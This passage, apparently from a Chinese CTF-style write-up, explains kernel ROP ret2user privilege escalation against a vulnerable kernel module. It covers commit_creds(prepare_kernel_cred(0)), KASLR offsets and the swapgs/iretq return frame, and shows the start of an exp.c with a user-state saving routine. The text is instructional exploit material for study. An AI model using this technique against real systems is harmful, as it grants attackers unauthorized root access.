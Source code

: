 ## 5.0.1 漏洞利用

上面只是对存在漏洞的 LKM 进行了分析，接下来看具体该怎么利用，即探讨 `kernel-ROP-ret2user` 的具体实现：

> 内核会通过进程的 task_struct 结构体中的 cred 指针来索引 cred 结构体，然后根据 cred 的内容来判断一个进程拥有的权限，如果 cred 结构体成员中的 uid-fsgid 都为 0，那一般就会认为进程具有 root 权限。
> 

一种常见的提权方式就是执行 `commit_creds(prepare_kernel_cred(0))`，方式会自动生成一个合法的 `cred`，并定位当前线程的 `task_struct` 的位置，然后修改它的 `cred` 为新的 `cred`。该方式比较适用于控制程序执行流后使用。

通过获取 `kaslr` 偏移地址，就可以得到上面两个内核函数和 `rop gadgets` 的地址，但是在内核态返回用户态的时候，还需要额外执行 `swapgs; iretq` 来恢复用户态的现场，即 `iretq` 后跟：

```cpp
iretq_ret;
(size_t)RET_ADDR;
user_cs;
user_rflags;
user_sp;
user_ss;

```

同时，程序最开始的地方也要保存用户态的现场：

```cpp
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
    );
    puts("[*]status has been saved.");
}

```

## 最终 exp.c

```c
// author: @eastXueLian
// usage : musl-gcc ./exp.c -static -masm=intel -o ./core/exp

#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#define lg(X) printf("\\033[1;31;40m[*] %s --> 0x%lx \\033[0m\\n", (#X), (X))

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
    );
    puts("[*]status has been saved.");
}
```